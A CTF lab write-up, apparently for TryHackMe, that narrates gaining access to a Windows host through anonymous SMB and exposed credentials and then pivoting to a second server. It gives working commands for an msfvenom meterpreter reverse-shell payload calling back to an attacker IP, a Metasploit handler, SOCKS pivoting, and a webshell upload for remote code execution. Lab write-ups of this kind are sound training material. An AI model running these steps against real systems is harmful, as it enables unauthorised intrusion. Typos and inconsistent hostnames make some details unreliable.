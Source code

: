 ```yaml
---
title: Powershell for pentesters
description: This lab focuses on leveraging PowerShell to gain initial access to a machine. You will then establish remote access and exploit a second machine that is not directly accessible from Kali. By identifying misconfigurations, extracting sensitive credentials, and obtaining a remote shell, you will demonstrate your ability to move through a multi-stage attack scenario.
author: xFraylin
date: 2025-08-21 00:42:00 +0800
categories: [Tryhackme]
tags: [CTF]
image:
  path: https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/logoo.png?raw=true
---
```


## Let's do a scan firts

![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/1nmap.png?raw=true)

>
```bash 
nmap -sCV serve.prod.local
```
1. sC active  default nmap scripts
2. -sV  detect service versions
{: .prompt-tip }
>
We perform a basic nmap script,version. As you can see have smb available
{: .prompt-info }

#Well once we know that there is an smb service running let's try to check if have public files, in my case when I tried with ```smbmap it doesn't work, then i did with smbclient```
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/2smbcl.png?raw=true)

>
```bash
smbclient -L //server.prod.local/
```
1. -L list all available shares
{: .prompt-tip}
>
So i Used this to enumare the share's files, As you can see there is ```11``` files available, We can use smbmap and the correct file to get acess
{: .prompt-info }

![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/3smbs.png?raw=true)
>
```bash
smbclient //server.prod.local/Utilities -U ""
```
1. -U "" Try to log with an empty cred (anynymous acess
{: .prompt-info }
>
We attemtp an anonymous loging using the current comand to check is the SMB share is accesible without valid creds, ( files that are on the current folder you can download typing   ```"get" following the file``` dont fortget that the first flag is here.
{: .prompt-tip}

![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/4getcred.png?raw=true)
Once we downloaded the files, Firts read de flag1 and the misconfiguration file, that exposed credentials

![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/evil-winrm.png?raw=true)
  Well with those credentials we can try to log in with ```evil-winrm``` with the following command
```bash
evil-winrm -i server.prod.local -u jack -p password
```
>
1. -i to specify    the host
2. -u the username
3. -p the password
{: .prompt-info}

![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/flag2.png?raw=true)

You can find the flag in the C:\ Directory

>
LETS GENERATE A WINDOWS PAYLOAD TO GET A METERPRETER SESSION
{: .prompt-tip}
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.40.3 LPORT=4447 -f exe > payload.exe
-p speciy the os system
LHOST= the attacker ip (listener)
LPORT= the attacker port
-f the extension 
>  =    the name of the payload
```
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/msfvenom.png?raw=true)

Now go  to ```msfconsole and start the multi/handler```
```bash
msfcosole
use multi/handler
set PAYLOAD  windows/x64/meterpreter/reverse_tcp
set LHOST=10.10.40.3
set LPORT=4447
run
```
We utilize the same options here when we generate the payload, you have to put the same.
>
you have to knwo  that   we have a session open on evil-winrm, with winrm we can upload our payload with the command ```upload payload.exe```
an we got se meterpreter session
{: .prompt-info}
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/multi_handler.png?raw=true)

Once que have the meterpreter session opened, we can search for the post exploit module, the autorute
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/auto_proxy.png?raw=true)
```bash
use post/multi/manager/autoroute 
set session 1
run
```
once the autoroute its complete we can set up socks proxy, in this case ``socks_proxy``

```bash
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 9050
run
```
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/socks_config.png?raw=true)

>
WELL, I FORGOT AT THE BEGINNING SAY TO YOU, THAT THERE IS TWO SERVER THERE IS ONE UNRACHEABLE, web.ine.local AND THE ANOTHER server.prod.local


`web.prod.local` unreachable

`server.prod.local` reachable
{: .prompt-info}

Once the socks_proxy module is running we can try accessing to the unrechable server with proxychains,
```bash
proxychains firefox web.pro.local

= proxychains its a proxy tool that allow us to interact with the socks_proxy running on the metasploit session
```

![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/acess%20to%20the%20web.png?raw=true)
Now that we know that we have access to that network we can perform a scan.

Let's use the portscan module to scan the target
in this case we are going to use portscan/tcp

```bash
msfconsole
use auxiliary/scanner/portscan/tcp
set RHOSTS web.prod.local
set PORTS 1-500
run
```
There is 4 open ports, let's explore the smb port
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/smbopen.png?raw=true)

We can list all the shares with the following command
```bash
proxychains smbclient -L //web.prod.local/

proxychains = the socks proxy tool
-L = List all the shares available
```
There is 4 Shares, but there is one intersting `wwwroot` let's try to access to that share
![Desktop View](https://raw.githubusercontent.com/xFraylin/xfraylin.github.io/refs/heads/main/assets/Powershell/filesavasmbproxy.png)

Well right here there if the flag number 3
![Desktop View](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/flag3.png?raw=true)

>
You can upload a webshell o whatever you want to get access to the target, on my case i'll upload a webshell, that its available in `/usr/share/webshells/` you can find whathever you want.
{: .prompt-info}
![Desktop view](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/uploadtheshell.png?raw=true) 

`I uploaded the cmdasp.aspx to get a RCE on the web `

`You can find the flag4 on the C:\ Dir`
![Desktop view](https://github.com/xFraylin/xfraylin.github.io/blob/main/assets/Powershell/flag4.png?raw=true)

>
We perform a enumeration scan, generate payload to inject the target, and we did pivoting.
{: .prompt-tip}